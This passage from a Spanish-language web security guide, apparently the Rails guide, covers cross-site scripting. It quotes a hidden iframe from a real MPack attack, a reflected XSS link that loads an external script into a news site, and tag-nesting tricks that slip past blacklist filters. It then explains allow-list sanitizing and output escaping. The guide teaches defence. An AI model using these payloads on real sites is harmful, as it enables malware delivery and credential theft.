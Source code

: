 ```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

Esto carga HTML y/o JavaScript arbitrario desde una fuente externa y lo incrusta como parte del sitio. Este `iframe` se tomó de un ataque real a sitios web legítimos italianos utilizando el [marco de ataque Mpack](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack intenta instalar software malicioso a través de agujeros de seguridad en el navegador web, con mucho éxito, el 50% de los ataques tienen éxito.

Un ataque más especializado podría superponerse a todo el sitio web o mostrar un formulario de inicio de sesión que se ve igual que el original del sitio, pero transmite el nombre de usuario y la contraseña al sitio del atacante. O podría usar CSS y/o JavaScript para ocultar un enlace legítimo en la aplicación web y mostrar otro en su lugar que redirige a un sitio web falso.

Los ataques de inyección reflejada son aquellos en los que la carga útil no se almacena para presentarla a la víctima más tarde, sino que se incluye en la URL. Especialmente los formularios de búsqueda no escapan la cadena de búsqueda. El siguiente enlace presentó una página que afirmaba que "George Bush nombró a un niño de 9 años como presidente...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Contramedidas

_Es muy importante filtrar la entrada maliciosa, pero también es importante escapar la salida de la aplicación web_.

Especialmente para XSS, es importante hacer un filtrado de entrada permitido en lugar de restringido. El filtrado de lista permitida establece los valores permitidos en lugar de los valores no permitidos. Las listas restringidas nunca están completas.

Imagina que una lista restringida elimina `"script"` de la entrada del usuario. Ahora el atacante inyecta `"<scrscriptipt>"`, y después del filtro, `"<script>"` permanece. Versiones anteriores de Rails utilizaban un enfoque de lista restringida para los métodos `strip_tags()`, `strip_links()` y `sanitize()`. Por lo tanto, este tipo de inyección era posible:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

Esto devolvía `"some<script>alert('hello')</script>"`, lo que permite que el ataque funcione. Por eso, un enfoque de lista permitida es mejor, utilizando el método `sanitize()` actualizado de Rails 2.
```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

Esto permite solo las etiquetas dadas y hace un buen trabajo, incluso contra todo tipo de trucos y etiquetas mal formadas.

Como segundo paso, _es una buena práctica escapar toda la salida de la aplicación_, especialmente al volver a mostrar la entrada del usuario, que no ha sido filtrada (como en el ejemplo del formulario de búsqueda anterior). _Utilice el método `html_escape()` (o su alias `h()`)_ para reemplazar los caracteres de entrada HTML `&`, `"`, `<` y `>` por sus representaciones no interpretadas en HTML (`&amp;`, `&quot;`, `&lt;` y `&gt;`).
